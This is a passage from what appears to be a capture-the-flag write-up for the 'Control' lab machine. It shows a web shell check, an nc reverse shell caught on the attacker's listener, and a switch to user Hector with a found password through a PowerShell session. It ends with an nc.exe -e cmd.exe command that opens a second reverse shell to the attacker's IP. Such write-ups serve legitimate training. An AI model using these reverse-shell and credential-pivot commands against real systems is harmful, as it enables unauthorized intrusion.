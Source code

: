 Check if the web shell works as intended:

![img](/images/writeup-control/11.png)

Now with a single request to that page we can start a proper reverse shell using nc and we’re in:

```aaa
baud@kali:~/HTB/control$ nc -lvnp 9999
listening on [any] 9999 ...
connect to [10.10.15.203] from (UNKNOWN) [10.10.10.167] 57762
Microsoft Windows [Version 10.0.17763.805]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\inetpub\wwwroot\uploads>
```

---

## Escalating to Hector and local enumeration

As it turns out the Manager user does not exist, but Hector does have an account on the system:

```aaa
C:\inetpub\wwwroot\uploads>dir c:\users
dir c:\users
 Volume in drive C has no label.
 Volume Serial Number is C05D-877F

 Directory of c:\users

11/05/2019  03:34 PM    <DIR>          .
11/05/2019  03:34 PM    <DIR>          ..
11/05/2019  03:34 PM    <DIR>          Administrator
11/01/2019  12:09 PM    <DIR>          Hector
10/21/2019  05:29 PM    <DIR>          Public
               0 File(s)              0 bytes
               5 Dir(s)  43,519,860,736 bytes free

C:\inetpub\wwwroot\uploads>
```

Because we already have found Hector’s password we can switch to it with a [PSSession](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_pssessions?view=powershell-7):

```aaa
C:\inetpub\wwwroot\uploads>powershell
powershell
Windows PowerShell 
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\inetpub\wwwroot\uploads> $pw = ConvertTo-SecureString -String "l33th4x0rhector" -AsPlainText -force
$pw = ConvertTo-SecureString -String "l33th4x0rhector" -AsPlainText -force
PS C:\inetpub\wwwroot\uploads> $pp = New-Object -TypeName System.Management.Automation.PSCredential -ArgumentList ".\Hector", $pw
$pp = New-Object -TypeName System.Management.Automation.PSCredential -ArgumentList ".\Hector", $pw
PS C:\inetpub\wwwroot\uploads> Enter-PSSession -ComputerName localhost -Credential $pp
Enter-PSSession -ComputerName localhost -Credential $pp
[localhost]: PS C:\Users\Hector\Documents> whoami
whoami
control\hector
[localhost]: PS C:\Users\Hector\Documents>
```


[localhost]: PS C:\Users\Hector\Documents> Invoke-Command -ScriptBlock { C:\inetpub\wwwroot\uploads\nc.exe -e cmd.exe 10.10.15.203 9898 }